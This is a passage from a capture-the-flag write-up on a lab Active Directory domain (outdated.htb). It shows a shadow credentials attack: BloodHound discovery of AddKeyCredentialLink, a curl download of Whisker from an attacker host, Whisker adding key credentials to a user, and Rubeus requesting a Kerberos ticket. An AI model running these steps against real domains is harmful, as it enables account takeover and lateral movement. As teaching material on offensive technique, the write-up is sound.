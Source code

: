 
## 3. Lateral Movement: {#3-dot-lateral-movement}


### Discovering `btables` has `AddKeyCredentialLink` privilege over `sflowers`: {#discovering-btables-has-addkeycredentiallink-privilege-over-sflowers}

-   After ingesting the data into bloodhound we can see that `btables` has the `AddKeyCredentialLink` privilege over `sflowers`.
-   {{< figure src="/ox-hugo/2024-10-11-120229_.png" >}}

-   **We can perform a shadow credentials attack to take advantage of this privilege**:
    -   If you are unfamiliar with this attack vector I have a write up here:
        -   <https://bloodstiller.com/articles/shadowcredentialsattack/>
    -   To put it simply: If we have the `WriteProperty` privilege (specifically for the `msDS-KeyCredentialLink` attribute) over a user or computer object, we can set Shadow Credentials for that object and authenticate as them. You read that right, we can add a certificate-based credential to a user or computer and then authenticate as them. We can also request a Kerberos ticket and use it for pass-the-ticket attacks if needed.


### Building `whisker.exe`: {#building-whisker-dot-exe}

-   **I actually don't the binary in my folder of binaries so will have to build**:
    -   I open up my windows VM.
    -   Clone the repo.
        -   `git clone https://github.com/eladshamir/Whisker`
    -   Open up Visual `Studio 2022`
        -   {{< figure src="/ox-hugo/2024-10-11-140328_.png" >}}
    -   Build &amp; voila a nice new `whisker.exe` binary.


### Adding Shadow Credentials to `sflowers` using `whisker.exe` : {#adding-shadow-credentials-to-sflowers-using-whisker-dot-exe}

-   **I transfer** `whisker.exe` **to the host**:
    -   `curl http://10.10.14.43:9000/Whisker.exe -o w.exe`
    -   {{< figure src="/ox-hugo/2024-10-11-163701_.png" >}}
    -   I call it `w.exe` for no reason other than speed when typing.

-   **I set the shadow credentials on the user** `sflowers`:
    -   `w.exe add /target:sflowers /domain:outdated.htb`
    -   {{< figure src="/ox-hugo/2024-10-11-141932_.png" >}}
    -   +Note+: What is great about `whisker` is that spits out the exact command you will need to run in `rubeus`.


### I use the base64 encoded certificate to request a `TGT` for `sflowers` using rubeus: {#i-use-the-base64-encoded-certificate-to-request-a-tgt-for-sflowers-using-rubeus}

-   **I run rubeus and pass it the base64 encoded certificate &amp; password**:
    -   `r.exe asktgt /user:sflowers /certificate:<base64Cert> /password:"sA1JSl1rVtabQdMp" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show`
